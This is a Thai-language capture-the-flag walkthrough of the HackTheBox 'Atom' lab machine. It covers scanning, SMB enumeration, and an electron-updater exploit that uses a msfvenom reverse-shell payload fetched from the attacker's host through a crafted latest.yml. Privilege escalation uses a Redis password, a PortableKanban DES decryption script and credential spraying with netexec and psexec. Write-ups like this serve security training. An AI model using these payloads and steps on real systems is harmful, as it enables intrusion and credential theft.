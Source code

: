 
## SCAN to Target 

```bash
./scan.sh 10.10.10.237   
[*] Running rustscan...
[*] Running nmap on ports: 80,135,443,445,5985,6379
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-13 20:19 +07
Nmap scan report for 10.10.10.237 (10.10.10.237)
Host is up (0.034s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc        Microsoft Windows RPC
443/tcp  open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-title: Heed Solutions
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6379/tcp open  redis        Redis key-value store
Service Info: Host: ATOM; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-13T12:59:02
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h59m27s, deviation: 4h02m32s, median: -20m34s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: ATOM
|   NetBIOS computer name: ATOM\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-05-13T05:59:06-07:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.99 seconds

```

## Enum HTTP on Port 80 

![[Challenge/HTB Challenge/ATOM HTB/IMG/001.png]]

ด้านล่างจะพบว่ามีการใช้งานโดเมน MrR3boot@atom.htb จากนั้นให้เพิ่มข้อมูลลงไปในไฟล์ Hosts 

```bash
vim /etc/hosts
10.10.10.237 atom.htb 
```

จากนั้นหากตรวจสอบหน้า Web จะพบว่าเราสามารถ download โปรแกรมที่ชื่อว่า Heed ของ Windows ได้ และหากเข้าไปจะพบว่ามี Dictionary Listing ที่สามารถ Download ได้อยู่
![[Challenge/HTB Challenge/ATOM HTB/IMG/002.png]]
## Enum SMB 

```bash
smbclient -N -L //10.10.10.237/ -U 'anonymous'
smbclient -N  //10.10.10.237/Software_Updates  -U 'anonymous' 

smb> ls 
```


![[Challenge/HTB Challenge/ATOM HTB/IMG/003.png]]


## Host Research 
จากเอกสารเราจะพบข้อมูลสำคัญในการใช้งานโปรแกรม Head ซึ่งทำให้เราทราบว่า
1. โปรแกรมนี้ถูกสร้างโดย electron-builder
2. เราสามารถวางบางสิ่งบางอย่างลงในโฟลเดอร์ Client อะไรก็ได้ 



![[Challenge/HTB Challenge/ATOM HTB/IMG/005.png]]
![[Challenge/HTB Challenge/ATOM HTB/IMG/004.png]]

จากข้อมูลข้างต้น เราสามารถนำไปตรวจสอบข้อมูลของข่องโหว่ของโปรแกรมดังกล่าว 

![[Challenge/HTB Challenge/ATOM HTB/IMG/006.png]]

จะพบว่ามี Blog หนึ่งเขียนไว้เกี่ยวกับช่องโหว่ RCE 
https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html


## Host Exploit 
จากนั้นดำเนินการสร้าง Shell ด้วย msfvenom แต่จุดสำคัญของช่องโหว่คือ ชื่อไฟล์จะต้องมี ==Singleqoute== อยู่ด้วย

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$(ip a show tun0 | grep 'inet ' | awk '{print $2}' | cut -d'/' -f1) LPORT=443 -f exe -o "r'everse.exe"


shasum -a 512 "r'everse.exe" | cut -d " " -f1 | xxd -r -p | base64 -w 0 

# ผลลัพธ์ ที่ได้  W+XIr+eDHZZJ/VyASn5OY2C3KVGCJIkPOfV5nDET9DqRG1yIXK/3MfLsMVCIhJ6c0TlBCjAhkWM8+xBi5ThoUA==   

vim latest.yml
version: 1.2.3
path:  http://10.10.14.9:8000/r'everse.exe
sha512: W+XIr+eDHZZJ/VyASn5OY2C3KVGCJIkPOfV5nDET9DqRG1yIXK/3MfLsMVCIhJ6c0TlBCjAhkWM8+xBi5ThoUA==
```

จากนั้น upload ไฟล์ latest.yml ด้วย smb จากนั้นรอ reverse shell กลับมาก็จะได้

![[Challenge/HTB Challenge/ATOM HTB/IMG/007.png]]


--- 

# Priv Escalation
## Redis Enum 
![[Challenge/HTB Challenge/ATOM HTB/IMG/008.png]]

เมื่อเข้าไปที่ Path ไฟล์ Config ของ Redis จะพบว่ามีการใช้งานคำสั่ง `requirepass kidvscat_yes_kidvscat` ซึ่งใน Redis หมายถึงการตั้งรหัสผ่านสำหรับการเชื่อมต่อกับ Redis server ด้วยการใช้คำสั่ง `requirepass` เพื่อกำหนดรหัสผ่านที่ต้องใช้ก่อนที่จะสามารถเข้าถึง Redis instance ได้
ในกรณีนี้:
- `requirepass` เป็นคำสั่งใน Redis ที่ใช้ในการตั้งรหัสผ่านเพื่อบังคับให้ผู้ใช้ทุกคนต้องใช้รหัสผ่านที่ถูกต้องก่อนที่จะทำการคิวรีหรือปฏิบัติการต่างๆ บน Redis server
- `kidvscat_yes_kidvscat` คือรหัสผ่านที่ถูกตั้งขึ้นในกรณีนี้
    
ตัวอย่างการใช้งาน:

เมื่อคุณตั้งค่า `requirepass kidvscat_yes_kidvscat` ในไฟล์ `redis.conf` หรือใช้คำสั่งใน Redis shell จะต้องใช้รหัสผ่านนี้ในการเชื่อมต่อ Redis ตัวอย่างเช่น:

1. การตั้งรหัสผ่านใน `redis.conf`:
    ```
    requirepass kidvscat_yes_kidvscat
    ```
    
2. การเชื่อมต่อ Redis ด้วยรหัสผ่าน:

```powershell
    redis-cli 
    AUTH kidvscat_yes_kidvscat
```
    

หากสำเร็จจะขึ้น OK  
![[Challenge/HTB Challenge/ATOM HTB/IMG/009.png]]

จากนั้นทดสอบรันคำสั่งใน Redis 
```sql
INFO

KEYS * 
pk:ids:User
pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff
pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
pk:ids:MetaDataClass


GET pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0



GET pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
{"Id":"e8e29158d70d44b1a1ba4949d52790a0","Name":"Administrator","Initials":"","Email":"","EncryptedPassword":"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi","Role":"Admin","Inactive":false,"TimeStamp":637530169606440253}

```

จากด้านบนจะพบว่าเราได้ข้อมูลของ User administrator ที่ Password ถูกเข้ารหัสไว้ ซึ่งไม่สามารถนำไปใช้ได้ 

--- 

หากรัน WinPeas จะพบไฟล์ที่น่าสนใจอยู่ภายใต้ Download 


ซึ่งหากสำรวจข้อมูลภายใต้ Download เราจะพบว่าผุ้ใช้งานดังกล่าวมีการใช้งาน PortableKanban  โดย **PortableKanban** คือเครื่องมือที่ใช้สำหรับการจัดการงานและโครงการในรูปแบบของกระดาน Kanban ซึ่งถูกออกแบบให้สามารถพกพาได้หรือใช้ได้ทุกที่ ด้วยคุณสมบัติที่สามารถปรับเปลี่ยนและติดตามสถานะของงานในลักษณะภาพรวมที่ชัดเจน โดยทั่วไปจะมีการแบ่งงานออกเป็นคอลัมน์ต่าง ๆ เช่น "To Do", "In Progress", และ "Done" เพื่อให้ทีมงานหรือบุคคลที่ใช้สามารถติดตามความคืบหน้าของงานได้ง่ายและสะดวก

## Crack Password form PortableKaban

![[Challenge/HTB Challenge/ATOM HTB/IMG/010.png]]


```python
import json  
import base64  
from des import * #python3 -m pip install des  
  
try:  
    hash = str(input("Enter the Hash : "))  
    hash = base64.b64decode(hash.encode('utf-8'))  
    key = DesKey(b"7ly6UznJ")  
    print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))  
except:  
    print("Wrong Hash")
```

```python
python3 -m venv venv
pip3 install des
python3 decrypt.py 
```


![[Challenge/HTB Challenge/ATOM HTB/IMG/011.png]]

หรือเราสามารถใช้ Cyberchef ได้ ดังต่อไปนี้ ซึ่งได้ผลลัพธ์เหมือนกัน 
![[Challenge/HTB Challenge/ATOM HTB/IMG/014.png]]

--- 
## Cred.txt 
administrator:kidvscat_admin_@123

---

จากข้อมูลที่พบเราสามารถทดสอบได้ว่าสามารถโจมตีไปทีโปรโตคอลอะไรได้บ้าง 
```bash
for service in wmi winrm smb mssql rdp ssh ldap ftp vnc; do netexec $service 10.10.10.237 -u 'administrator' -p 'kidvscat_admin_@123'; done 
```

![[Challenge/HTB Challenge/ATOM HTB/IMG/012.png]]

จากผลเราจะทดสอบโจมตีด้วย impacket-psexec 

![[Challenge/HTB Challenge/ATOM HTB/IMG/013.png]]

--- 
# PWN !
